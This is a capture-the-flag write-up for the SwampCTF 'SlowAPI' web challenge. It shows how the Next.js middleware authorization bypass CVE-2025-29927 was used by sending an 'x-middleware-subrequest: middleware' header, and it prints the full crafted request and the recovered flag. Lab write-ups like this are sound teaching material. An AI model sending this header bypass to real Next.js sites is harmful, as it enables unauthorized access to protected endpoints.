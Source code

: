 # SlowAPI - Swamp CTF

## Category: Web Exploitation

### Description
The Gator Research Institute requested an application to be developed. To explore new technologies, I decided to base the implementation on Next.js. However, authentication has not yet been implemented, which may allow unauthorized access.

🔗 **Challenge URL:** [http://chals.swampctf.com:43611/](http://chals.swampctf.com:43611/)

### Analysis
Upon visiting the website, an interesting endpoint was discovered:  

```
http://chals.swampctf.com:43611/flag
```

![Screenshot of the denied access](images/slowapi1.png)

Access to this endpoint was denied. Given the challenge description, it was suspected that the application used Next.js. Recent research revealed a Next.js vulnerability, **CVE-2025-29927**, which allows bypassing authorization checks by sending an HTTP request with the `x-middleware-subrequest` header.

### Exploitation
To successfully exploit this vulnerability, the actual API endpoint had to be identified. Using the browser's Developer Tools, the network requests were analyzed, revealing that the flag was located at:

```
/api/protected/flag
```

![Screenshot of Developer Tools](images/slowap2.png)

Using Burp Suite, an HTTP request was crafted to include the required header:

```
GET /api/protected/flag HTTP/1.1
Host: chals.swampctf.com:43611
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
x-middleware-subrequest: middleware
```

This bypassed the authorization check, returning the flag.

```
flag":"swampCTF{b3w4r3_th3_m1ddl3w4r3}
```

![Screenshot of Burp Suite Exploit](images/slowapi3.png)
